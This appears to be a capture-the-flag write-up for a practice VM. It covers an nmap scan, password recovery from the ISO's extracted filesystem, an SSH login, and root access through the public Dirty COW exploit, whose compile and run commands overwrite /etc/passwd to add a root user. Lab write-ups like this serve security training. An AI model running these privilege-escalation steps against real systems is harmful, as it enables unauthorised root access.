 # Writeup 2

First we need to find the IP address of Virtual machine.

For that we use `nmap` package to process the next search:

``` bash
$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-13 17:56 MSK
Nmap scan report for 192.168.56.102  <== THIS is the IP address we are looking for
Host is up (0.015s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 255 IP addresses (1 host up) scanned in 37.77 seconds
```
Next step we browse the ISO file System.

Among other files ISO contains this `/casper/filesystem.squashfs` which is actually a whole compressed file system.
In order to decompress it we run the command:

``` bash
$ unsquashfs <destination_path> <your_path_to_ISO/casper/filesystem.squashfs>
```

After extracting the file system we see these two files in `/home/lmezard/`:

``` bash
$ ls /home/lmezard
fun  README
```

fun is an archive, then:

``` bash
$ tar xvf fun ; ls
ft_fun  fun  README
```

ft_fun directory conrtains many many files, written in C with comments containing its serial number.

For combining them together we use our `script.py` and creating new file `script.c`

``` bash
$ gcc script.c 
$ ./a.out 
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```
``` bash
$ echo -n Iheartpwnage | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

Now we are ready to connect via SSH and use the hash above as a password to `laurie` user.

``` bash
$ ssh laurie@192.168.56.102
Password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

For the next step we need to use system vulnerabilities.
The Linux kernel we are work with is:

``` bash
$ uname -r
3.2.0-91-generic-pae
```

``` bash
$ cat /etc/*-release
Ubuntu, 12.04
```

In order to explit it we search this [website](www.exploit-db.com) and find the [next variant](https://www.exploit-db.com/exploits/40839)

This exploit uses the dirtycow vulnerability, which is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018. It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem. Computers and devices that still use the older kernels remain vulnerable.



After compiling and running the program the user will be prompted for the new password.

Then this exploit back up the /etc/passwd file to /tmp/passwd.bak and overwrites the root account with the generated line.

After running the exploit you should be able to login with the newly created user, whiср name is "firefart" by default, and use this exploit to modify the user values according to your needs.

Compile the file
``` bash
$ gcc -pthread dirty.c -o dirty -lcrypt
```
Run the script with your new password
``` bash
$ ./dirty <my-new-password>
```
Log in to the root user named firefart
``` bash
$ su firefart
```

Enter your new password password
